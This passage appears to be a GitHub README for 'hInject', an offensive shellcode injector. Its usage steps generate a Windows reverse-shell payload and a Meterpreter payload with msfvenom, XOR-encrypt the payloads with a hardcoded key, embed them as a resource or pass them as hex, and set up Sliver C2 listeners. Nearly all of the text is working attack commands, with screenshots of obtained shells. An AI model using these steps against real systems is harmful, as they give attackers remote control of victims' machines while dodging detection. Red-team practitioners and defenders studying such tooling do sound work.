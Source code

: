 1. Generate shellcode using `msfvenom`:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.136.181 LPORT=443 -f raw -o shellcode.bin
```

2. Encrypt the shellcode using `parser_tool.py` from sources folder with a hardcoded XOR key (modify as needed):
```bash
python parser_tool.py --file shellcode.bin --xor-key ippyokai --binout coffe.bin
```
<img width="1224" height="97" alt="Pasted image 20250830010524" src="https://github.com/user-attachments/assets/2adc1e59-fdab-4d2a-99c1-6bd9be2bd86a" />

3. Embed the shellcode as a resource:
   - In Visual Studio, import the encrypted file (`coffe.bin`) as a resource named `COFFE` (or update `core.h`, `resource.h`, and `hInject.rc` if using a different name).
   - Rebuild the solution.

<img width="968" height="662" alt="Pasted image 20250830001732" src="https://github.com/user-attachments/assets/14348175-4b3d-4561-9ba1-d75aba9c30fa" />
<img width="933" height="617" alt="Pasted image 20250830002230" src="https://github.com/user-attachments/assets/0682d835-df2e-4bce-b594-f0e112d15a38" />

4. Run the resource method:
```bash
.\hInject.exe -m resource
```
<img width="1110" height="472" alt="Pasted image 20250830012038" src="https://github.com/user-attachments/assets/25f3ca2a-6c19-48b5-ab69-7ba312d7b903" />

The reverse shell was successfully obtained in a Commando VM:
<img width="959" height="239" alt="Pasted image 20250830012112" src="https://github.com/user-attachments/assets/61f1bbb0-1fd5-4743-a564-36fe261fc62a" />


### HEX Method

This example uses a Meterpreter shellcode as a staged payload for Sliver C2.

1. Generate shellcode:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.136.138 LPORT=4444 -f raw -o shellcode.bin
```

2. Set up Sliver:
```bash
profiles new beacon --mtls 192.168.136.138:4444 --format shellcode hInject
stage-listener -u tcp://192.168.136.138:4444 -p hInject
mtls -L 192.168.136.128 -l 443
```

3. Convert shellcode to hex using `parser_tool.py`:
```bash
python3 parser_tool.py --file shellcode.bin --xor-key ippyokai --hexshellcode
```
<img width="1841" height="227" alt="Pasted image 20250830015601" src="https://github.com/user-attachments/assets/cc29642f-12c8-4272-9a8e-df0c3613616c" />

4. Run the HEX method:
```bash
.\hInject.exe -m hex <hex_payload>
```
<img width="1320" height="477" alt="Pasted image 20250830015709" src="https://github.com/user-attachments/assets/db8ae6a0-2a13-4362-af93-a2983ed1a621" />

